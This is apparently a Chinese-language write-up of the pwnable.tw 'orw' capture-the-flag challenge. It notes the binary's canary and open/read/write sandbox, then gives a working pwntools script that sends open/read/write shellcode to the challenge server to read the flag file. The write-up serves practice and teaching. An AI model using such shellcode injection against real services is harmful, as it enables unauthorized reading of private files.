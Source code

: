```yaml
---
layout: post
---
```

![image](https://user-images.githubusercontent.com/98165037/225352408-c098738b-6111-44a2-8b48-8d6fda0667b1.png)

32位程序，开了canary

![image](https://user-images.githubusercontent.com/98165037/225352038-ff68b8ad-20f1-4bdb-a8b3-87c8576a0a50.png)

开了沙盒，只能用open，read，write

![image](https://user-images.githubusercontent.com/98165037/225351744-a22ec6d3-24e0-46dd-aa87-c08ea36c9134.png)

当时觉得shellcode读到的bss段没有执行权限，会不会不能执行，但代码看上去就是直接执行的意思(事实证明确实能执行），这里还不太懂

其实挺简单的，但莫名一直不行，后来发现shellcraft生成的汇编里竟然有rdi(仿佛64位才有？），然后尝试注释掉开头的`arch='amd64'`就行了

exp：
```python
from pwn import*
context(os='linux',log_level='debug')#arch='amd64'
#p = process("./orwp")
p = remote('chall.pwnable.tw',10001)

shellcode = asm(shellcraft.open("/home/orw/flag"))
shellcode += asm(shellcraft.read(3, 'esp', 0x50))
shellcode += asm(shellcraft.write(1, 'esp', 0x50))
p.sendafter('shellcode:',shellcode)#.ljust(0xC8, b'\x00')
p.interactive()
```
